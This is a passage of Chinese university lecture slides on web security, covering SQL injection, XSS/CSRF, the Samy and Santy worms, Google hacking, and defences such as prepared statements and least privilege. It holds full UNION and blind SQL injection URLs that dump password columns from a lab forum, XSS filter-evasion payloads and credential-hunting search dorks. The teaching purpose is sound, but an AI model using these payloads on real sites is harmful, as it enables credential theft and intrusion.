> 备注：%是模糊查询,中间有p的字段

<!-- slide: 78 -->

## SQL Injection：Step 15

- 下面的查询列出所有含有类似pass列的表名和列名：
- Select sysobjects.name, syscolumns.name from syscolumns, sysobjects where syscolumns.name like ‘%pass%’ and sysobject.type=‘U’ and sysobject.id=syscolumns.id
- 系统中有一个FORUM_FORUM表，含有一列F_PASSWORD_NEW

> 备注：http://192.168.230.2/bbs/pop_profile.asp?mode=display&id=9 union all select null,sysobjects.name,null,syscolumns.name,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null from syscolumns,sysobjects where syscolumns.name like char(0x25)%2Bchar(0x70)%2Bchar(0x61)%2Bchar(0x73)%2Bchar(0x73)%2Bchar(0x25) and sysobjects.type=char(0x55) and sysobjects.id=syscolumns.id--

<!-- slide: 79 -->

## SQL Injection：Step 16

- 但是我们对Forum_Forum这个表不感兴趣，所以查一下结果数目。使用count(*)查询结果为2；

> 备注：http://192.168.230.2/bbs/pop_profile.asp?mode=display&id=9 union all select null,count(*),null,count(*),null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null from syscolumns,sysobjects where syscolumns.name like char(0x25)%2Bchar(0x70)%2Bchar(0x61)%2Bchar(0x73)%2Bchar(0x73)%2Bchar(0x25) and sysobjects.type=char(0x55) and sysobjects.id=syscolumns.id--

<!-- slide: 80 -->

## SQL Injection：Step 17

- 因此对后一句使用order by 2 desc（可以反复多试一下不同的排序方式）直到最后显示出表名FORUM_MEMBERS中含有M_PASSWORD列；

> 备注：http://192.168.230.2/bbs/pop_profile.asp?mode=display&id=9 union all select null,sysobjects.name,null,syscolumns.name,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null from syscolumns,sysobjects where syscolumns.name like char(0x25)%2Bchar(0x70)%2Bchar(0x61)%2Bchar(0x73)%2Bchar(0x73)%2Bchar(0x25) and sysobjects.type=char(0x55) and sysobjects.id=syscolumns.id order by 2 desc--

<!-- slide: 81 -->

## SQL Injection：Case

- 猜测还有M_NAME一列。
- 最后查询出系统含有admin用户，其口令为admin。

- http://192.168.230.2/bbs/pop_profile.asp?mode=display&id=9 union all select null,m_name,null,m_password,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null from forum_members--

> 备注：http://192.168.230.2/bbs/pop_profile.asp?mode=display&id=9 union all select null,m_name,null,m_password,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null,null from forum_members--

<!-- slide: 82 -->

## 充分利用系统的错误提示信息；
充分利用union查询，这种方式几乎适合于所有的数据库类型，是最为普遍的一种暴库方法；
union时首先利用order by检查数据项，再用null做通配满足数据类型一致，注意使用union all；
充分利用系统回显，如果回显只能显示一项数据，那么对union之前的查询设置“不能满足的条件”，对union之后的语句采用order by调整显示的顺序；
结合系统表枚举表结构；
注意利用特殊方法来绕开系统的过滤，如char()绕开对’的过滤；
注意“加号”的URL编码；
注意考虑程序员的习惯，例如asp里程序员一般都会把’用’’代替，但是有时候会忽略数字项的注入漏洞。例如根据列名M_PASSWORD可以猜测出还有一列名为M_NAME

- 总结

<!-- slide: 83 -->

## 盲注入(Blind Injection)：如果系统屏蔽了详细的错误信息，那么对攻击者而言就是盲注入。

盲注入并非是全盲，可以充分利用系统的回显空间；例如前面的实例，对于有经验的攻击者，完全可以抛开那些错误信息直接注入。

如果连回显也没有（比如Mysql 4.0版本以下不支持UNION查询），那么就要利用在正确与错误之间，依然可以获取的1Bit的信息量；

- 如果看不到具体的错误信息：盲注入

<!-- slide: 84 -->

## and exists (select * from admin where id=1 and len(name)<10)，返回正常说明长度小于10，
and exists (select * from admin where id=1 and len(name)>5)，返回正常说明长度大于5，
and exists (select * from admin where id=1 and len(name)>7)，返回错误说明长度小于7，
……
and exists (select * from admin where id=1 and mid(password,1,1)>=’a’) , 返回正常说明密码第一个字符是英文（’0’=48,’a’=65,’A’=97），
and exists (select * from admin where id=1 and mid(password,1,1)<=’z’) ,返回正常说明密码第一个字符是小写英文（’0’=48,’a’=65,’A’=97），
and exists (select * from admin where id=1 and mid(password,1,1))<=’m’ ,返回错误说明密码第一个字符在n到z之间，
……
最好用工具，例如前面提到的Formbrute；
要利用数据库字符串处理函数如mid, len, left等等，不同数据库有差异，最好有速查手册。

- 二分法盲注入示例

<!-- slide: 85 -->

## 防范SQL注入:Secure SDLC

- 需求分析
- 设计
- 实现
- 测试
- 安全需求工程
- 设计安全
- 发布

- 安全编码
- 补丁管理
- 配置加固
- 软件黑盒测试
- 渗透性测试
- 代码安全审计
- 安全软件开发生命周期依然是Web安全的基石。
- 编码阶段：安全编码规范（输入验证、遵循安全SQL编码规范）
- 测试阶段：代码审计、SQL注入测试等，可手工也可以结合自动工具
- 部署阶段：数据库安全加固、Web应用防火墙、IDS/IPS

<!-- slide: 86 -->

## 安全编码

- 安全编码不难，真正困难的是如何做到全面安全，这需要良好的程序设计以及编码习惯。支离破碎的设计与随意混杂的编码难以开发出安全的系统。
- 各种语言与数据库的实际情况也有所区别，所以需要具体问题具体分析。
- 1.输入验证
- 数字型的输入必须是合法的数字；
- 字符型的输入中对’进行特殊处理；
- 验证所有的输入点，包括Get，Post，Cookie以及其他HTTP头；
- 2.使用符合规范的数据库访问语句
- 正确使用静态查询语句，如PreparedStatement

<!-- slide: 87 -->

## PHP：magic_quotes_gpc

- 但是在上面的代码示范中，攻击者可以利用%2527绕过这项过滤。原因是服务器首先URL解码将%2527解码为%27，然后经过magic_quotes_gpc过滤时不做处理，最后在代码处又进行一次urldecode，%27被解码为’，从而绕开了PHP缺省的过滤机制。
- $magic_quotes_runtime = “on”;
- $url = urldecode($_REQUEST[‘url’]);
- $query = “INSERT INTO tbl_links (type, url) VALUES(1, ‘$url’)”;
- 高版本PHP缺省设置magic_quotes_gpc为打开，这样一切get,post,cookie中的’，’’，\，null都将被特殊处理为\’，\’’，\\，\0，可以防范大多数字符串SQL注入以及前面提到的空字节注入。

<!-- slide: 88 -->

## JSP：PreparedStatement

- 在JSP中要禁止使用Statement，如下的代码会导致SQL注入：
- Bubble
- String sql = “select * from Users where name=” + name; PreparedStatement pstmt = con.prepare(sql);
- String sql = “select * from product where cat=’?’ and price >’?’”PreparedStatement pstmt = con.prepare(sql);pstmt.setInt(1, request.getParameter(“cat”));pstmt.setString(2, request.getParameter(“price”));ResultSet rs = pstmt.executeQuery();
- Statement stmt = con.createStatement();
- stmt.executeUpdate("select * from Users where name=" + name);
- 应当全部使用PreparedStatement来防止SQL注入
- 但是在使用PreparedStatement，也要注意符合编码规范，如下的方法也会导致SQL注入：
- 安全
- 危险
- 危险

<!-- slide: 89 -->

## ASP.NET：SqlParameterCollection

- 在ASP.NET中要使用SqlParameterCollection来防止SQL注入：
- Bubble
- SqlDataAdapter myDataAdapter = new SqlDataAdapter( "SELECT au_lname, au_fname FROM Authors WHERE au_id = @au_id", connection); myCommand.SelectCommand.Parameters.Add("@au_id", SqlDbType.VarChar, 11);
- myCommand.SelectCommand.Parameters["@au_id"].Value = SSN.Text; myDataAdapter.Fill(userDataset);
- 总结：
- JSP实例中的setInt, setString，ASP.NET实例中的SlqDbType.VarChar都充分利用了语言本身提供的功能去进行强类型检查。而最早的ASP就缺乏这种机制，这也是为何ASP是最容易进行SQL注入的语言。

<!-- slide: 90 -->

## 数据库加固：最小权限原则

- 除了在代码设计开发阶段预防SQL注入外，对数据库进行加固也能够把攻击者所能造成的损失控制在一定范围内；
- 主要包括：
- 禁止将任何高权限帐户（例如sa，dba等等）用于应用程序数据库访问。更安全的方法是单独为应用创建有限访问帐户。
- 拒绝用户访问敏感的系统存储过程，如前面示例的xp_dirtree,xp_cmdshell等等；
- 限制用户所能够访问的数据库表；
- Bubble

<!-- slide: 91 -->

## 目录

- Web对象直接引用
- 二
- 三
- 四
- 恶意代码执行
- 一
- 背景
- 注入攻击
- 五
- 跨站脚本攻击
- 六
- Google Hack
- OWASP漏洞攻防
- 七

<!-- slide: 92 -->

## 跨站脚本：OWASP 2007 Top 1 and Top5

| A1 | 跨站脚本 Cross Site Scripting,简称为XSS | 如果Web应用没有对攻击者的输入进行适当的编码和过滤，就转发给其他用户的浏览器时，可能导致XSS漏洞。 攻击者可利用XSS在其他用户的浏览器中运行恶意脚本，偷窃用户的会话，或是偷偷模拟用户执行非法的操作； | 发帖子，发消息 |
|---|---|---|---|

- 脚本：
- Web浏览器可以执行HTML页面中嵌入的脚本命令，支持多种语言类型 (JavaScript, VBScript, ActiveX, etc.)，其中最主要的是JavaScript.
- 
- 跨站的含义：
- 攻击者制造恶意脚本，并通过Web服务器转发给普通用户客户端，在其浏览器中执行。
- 可能导致的攻击类型：
  - 盗取用户身份, 拒绝服务攻击, 篡改网页
  - 模拟用户身份发起请求或执行命令（及OWASP TOP 5 CSRF，在此一起介绍）
  - 蠕虫，等等……

> 备注：Xss：仍然是一种注入攻击

Csrf：伪造请求

<!-- slide: 93 -->

## 存储式XSS-攻击简介（Stored XSS）

- 1. 正常服务器信息
- 2. 服务器存储恶意代码
- 3. 用户浏览网页
- 4. 服务器将恶意代码返回给用户
- 5. 客户端浏览器执行恶意代码
- 攻击者
- 普通用户客户端
- Web服务器
- 在论坛发帖子：
- 免费获取Q币！！！
- 
- 重要通知
- Re:沙发！！
- Re:地板？
- Re:地下室沙发……
- Re:地下室地板-_-!!
- Re：免费获取Q币！！！
- 内容：
- 
- Re:谁又发垃圾广告啦？
- 恶意代码
- 执行！
- 2
- 1
- 3
- 4
- 5

<!-- slide: 94 -->

## 存储式XSS攻击实验

- Step 1.以test用户登录论坛发表新帖子，内容如下：
- 
- 学员练习
- 3Min

<!-- slide: 95 -->

## 存储式XSS攻击实验

- Step 2.以admin用户登录论坛浏览刚才那个新帖子。

- 恶意代码
- 执行！

<!-- slide: 96 -->

## 反射XSS-攻击简介（Reflected XSS）

- 浏览器
- 浏览器
- Outlook
- 正常访问
- 恶意代码隐藏在链接中
- “reflected”
- 代码
- 1
- From:
- 攻击者
- To:
- 用户
- 免费赠送Q币！！！
- CLICK HERE
- 恶意代码
- 安全上下文:
- 目标站点
- 普通合法会话
- 安全上下文:
- 目标站点

- 攻击者
- Web服务器
- 普通用户客户端

- 1
- 2
- 3
- 4
- 5
- 恶意代码
- 执行！

<!-- slide: 97 -->

- 案例：
- bank.com支持通过保留cookie自动登录的功能，这样在cookie有效期内，用户访问bank.com就会以他们上次在此主机登录的用户名自动登录（例如Gmail的Remember me on this computer）。
- 另外，bank.com上有个链接可以通过get直接给指定对象转账，例如：
- http://bank.com/transfer.do?acct=Alice&amout=1，只要Bob登录并访问这个链接，就会自动向Alice转账1元。
- 现在Alice发送给Bob一份邮件，里面嵌入如下的图像标签：
- 
- 当Bob打开邮件时，他不知道这个恶意的HTML标签已经从他账户里转账100元到Alice。

<!-- slide: 98 -->

## XSS包括两种类型：

存储式XSS：恶意代码持久保存在服务器上。
反射式XSS：恶意代码不保留在服务器上，而是通过其他形式实时通过服务器反射给普通用户。需要用户交互。

XSS漏洞可利用的标志就是“Hello!”，一旦示意代码可以在用户的浏览器中执行，其后可实现的攻击行为与来源是存储还是反射无关。可以利用XSS发起CSRF攻击或盗取用户身份。

- 总结

<!-- slide: 99 -->

## Samy Worm

- 2005年10月5日是XSS攻击里程碑式的一天：Samy Kamkar释放了XSS历史上的首个蠕虫。
- 过程简介  ：
- Samy在自己的个人介绍中嵌入一段CSRF攻击代码；
- 某用户查看Samy的个人介绍，恶意代码在其浏览器中执行；
- 首先，代码发起XMLHTTP请求，Get到此用户的修改个人信息页面，获取必要的信息；
- 代码保留这些必要的信息，同时用代码本身覆盖此用户的个人介绍，最后利用XMLHTTP完成修改；
- 此用户的个人介绍中被嵌入了该段代码。进而可以传染给其他人。

- 作者本人提供了详细的技术细节讲解，见http://namb.la/popular/tech.html

<!-- slide: 100 -->

## Samy Worms

- 其指数级的传播速度为Internet历史蠕虫之冠。

| 估计时间 | 估计感染数量 |
|---|---|
| 2005年10月5日 0点35分 | 0（病毒开始传播） |
| 2005年10月5日 1点30分 | 1 |
| 2005年10月5日 8点35分 | 222 |
| 2005年10月5日 9点30分 | 481 |
| 2005年10月5日 10点30分 | 1006 |
| 2005年10月5日 13点30分 | 8803 |
| 2005年10月5日 18点20分 | 919514 |
| 2005年10月5日 18点24分 | 1008261 |
| 2005年10月5日 19点05分 | MySpace关闭 |

- Samy蠕虫：
- 利用Myspace社区XSS漏洞，通过CSRF攻击方式传播；
- 传播速度如右表所示：
- 对比：
- Internet著名蠕虫24小时内传播数

<!-- slide: 101 -->

## 2007-9-27：新发现的XSS站点

- Bubble

<!-- slide: 102 -->

## XSS防范措施：SSDLC

- 需求分析
- 设计
- 实现
- 测试
- 安全需求工程
- 设计安全
- 发布

- 安全编码
- 补丁管理
- 配置加固
- 软件黑盒测试
- 渗透性测试
- 代码安全审计
- 安全软件开发生命周期依然是Web安全的基石。
- 编码阶段：输入过滤、输入编码、输出过滤、输出编码
- 测试阶段：代码审计、XSS测试等，可手工也可以结合自动工具
- 部署阶段：IDS/IPS、Web应用防火墙、客户端浏览器安全加固

<!-- slide: 103 -->

## 编码阶段防范措施

- 统一输入处理并不能完全考虑到输出语境的不同，例如有时会输出为文本文件，经过html编码的语句在文本文件中会出现乱码；
- 而且可能存在其他来源的数据，例如其他接口系统，历史残留数据等，无法通过输入处理解决。
- 在不允许html执行的语境中，采用编码是相对安全的解决方法。但是如果输入被用于构造javascript语句，html编码则无法解决问题。
- 当您需要允许少数的html标签子集时，只能采用过滤的方法。
- 但是由于HTML的复杂性以及浏览器的松散解释特性，攻击者常常可以找到绕过过滤的方法。
- Bubble
- 在设计开发阶段就考虑XSS问题，是最有效的防范办法；

- 输出是XSS最终生效的地方，因此在此处理是最全面的。
- 但输出往往需要开发者逐个处理，因此非常繁琐，一旦开发者疏忽，就容易造成漏洞。
- 输入编码
- 输入过滤
- 输出编码
- 输出过滤
- 编码：直接将HTML标签最关键的字符<>&编码为&lt;&gt;&amp;
- 过滤：将script,style,iframe,onmouseover等有害字符串去掉，但是保留<>&，因为需要有限地支持一些基本的标签
- 各种方法都有优劣之处，防范XSS的真正挑战在于全面。

<!-- slide: 104 -->

## 如果只采用过滤，很难考虑完备：

- 过滤是最低效的方法

|  |
|---|
|  |
|  |
| ¼script¾alert(¢XSS¢)¼/script¾ |
|  |
|  |
| <EMBED SRC=http://bsp.com/xss.swf AllowScriptAccess="always"></EMBED> |
| 更多实例可见：http://ha.ckers.org/xss.html |

- 综合起来有 91种HTML标签,十多种编码方式,数种对象类型…
- MySpace采用的过滤

<!-- slide: 105 -->

## 防范措施总结

- 一.过滤：
- 有时候过滤会导致意外的结果，例如alice’s 变成了alices。
- 有时候需要多次过滤，例如<scrip<script>t>过滤掉<script>后还是<script>。
- 需要注意多个过滤器的先后次序。当多个过滤器一起生效时，有可能后进行的过滤导致前面的过滤失效。例如过滤器1要过滤ABC，过滤器2要过滤DEF，那么ABDEFC在依次通过1，2过滤器后变成了ABC，这样相当于绕开过滤器1。
- 二.输入编码：
- 输入编码往往可以有全局的解决方案，从设计的角度来看，这是最佳的。
- 一旦数据已经入库，就难以用输出编码处理。
- 三.输出编码：
- 输出编码有助于开发者细粒度控制输出，但也导致了工作量的增加。
- 输出编码可以解决输入编码无法处理的已入库数据。
- 四.用户安全加固：
- 小心点击来源不明的URL。
- 对浏览器进行安全加固，例如禁止ActiveX。
- 永远不要点击自动登录信息！

<!-- slide: 106 -->

## 永远不要开启自动登录！！

- 您可以从http://www.gnucitizen.org/blog/google-gmail-e-mail-hijack-technique/看到一次攻击（只要您曾经开启了gmail的自动登录功能,该攻击就会导致您的私人信件被自动转发到攻击者的信箱，持续到2007年9月有效）

- 永远不要选中这个！

<!-- slide: 107 -->

## 目录

- Web对象直接引用
- 二
- 三
- 四
- 恶意代码执行
- 一
- 背景
- 注入攻击
- 五
- 跨站脚本攻击
- 六
- Google Hack
- OWASP漏洞攻防
- 七

<!-- slide: 108 -->

## 传统Hack方式：已知目标站点，寻找漏洞攻击
Google Hack：已知漏洞，寻找目标站点

- Google: 黑客的朋友
- Google Hack

- 前面的PPT中
- 已经两次用到了
- Google Hack

<!-- slide: 109 -->

## Google搜索关键字（一）

| 关键字 | 含义 | 示例 |
|---|---|---|
| + | 强制搜索某通用词汇（缺省Google会忽略通用词汇，如where, how, 1, 2, a, b） | Star Wars Episode +I |
| - | 排除含有此关键词的网页 | vBulletin 2.3.0 -vulnerability |
| ~ | 搜索同义词 | Tomcat ~attack可以搜索出hack |
| . | 单字符通配 | Index of..etc 可以匹配index of /etc |
| * | 单词匹配 |  |
| “” | 强制匹配一段字符串 | “vBulletin 2.3.0” |

<!-- slide: 110 -->

## Google搜索关键字（二）

| 关键字 | 含义 | 示例 |
|---|---|---|
| (all)intext | 把网页中的正文内容中的某个字符做为搜索条件 |  |
| (all)intitle | 搜索网页标题中是否有我们所要找的字符 | intitle:”Index of” |
| (all)inurl | 搜索指定的字符是否存在于URL中 | 查看是否有admin链接 inurl:admin |
| site | 返回所有指定站点有关的URL | 查看sina.com.cn是否有asp site:sina.com.cn filetype:asp |
| filetype | 搜索指定类型的文件，也可以用ext |  |
|  |  |  |

- 注意：这些关键字必须小写

<!-- slide: 111 -->

## intitle: “Index of..etc” passwd

<!-- slide: 112 -->

## “Microsoft-IIS/5.0 server at” -google

<!-- slide: 113 -->

## confidential nokia siemens filetype:pdf

<!-- slide: 114 -->

## intitle:”Index.of” intext:asp

- 源代码泄露！

<!-- slide: 115 -->

## 自动化Google Hack

- 只需要编码1小时就可以造出下面的工具：
- 1分钟26秒内发现
- 500个漏洞站点

<!-- slide: 116 -->

## Google Hack的里程碑：Santy

- Santy蠕虫利用了当时一个普遍使用的phpBB开源论坛中的漏洞。该漏洞允许攻击者往服务器上传任意脚本；
- 发现一个漏洞web站点后，自动利用漏洞上载蠕虫脚本(perl)，并以Linux缺省perl引擎的支持下启动；
- 利用Google搜索下一个漏洞站点……
- 2004年12月20日
- 注：Santy利用的PhpBB漏洞即为在前面讲PHP防范SQL注入的时候的举例）

<!-- slide: 117 -->

## Santy代码片段

- 蠕虫搜索google采用的Viewtopic.php后跟上一个随机数值串 (例如：1414414=5858583)
- 由此保证每次搜索结果不同

<!-- slide: 118 -->

## 最后Google被迫关闭了此搜索

<!-- slide: 119 -->

## 但是还有其他手段绕开Google过滤

- Google识别空格吗？
- Viewtopic本身也可能是其他网站.  增加 phpBB的脚注，结果更正确
- Viewtopic.php 也可以用 viewtopic和php代替

<!-- slide: 120 -->

- 其他Google Hacker干什么？

<!-- slide: 121 -->

- 其他Google Hacker干什么？

<!-- slide: 122 -->

- 结束语：Web Everywhere
- 创建一个如下内容的文件，保存为temp.asx，然后打开
- <ASX VERSION="3.0">
- <PARAM name="HTMLView" value="http://www.baidu.com"/>
- <ENTRY>
- <REF href="http://www.baidu.com/img/logo.gif"/>
- </ENTRY>
- </ASX>

- 您的确可以在mediaplayer里上网

<!-- slide: 123 -->

- <number>
- 谢  谢！
- 华南理工大学 计算机科学与工程学院
- 广州市番禺区大学城华南理工大学
- 邮编：510006
- 电子邮件：nieyongwei@scut.edu.cn
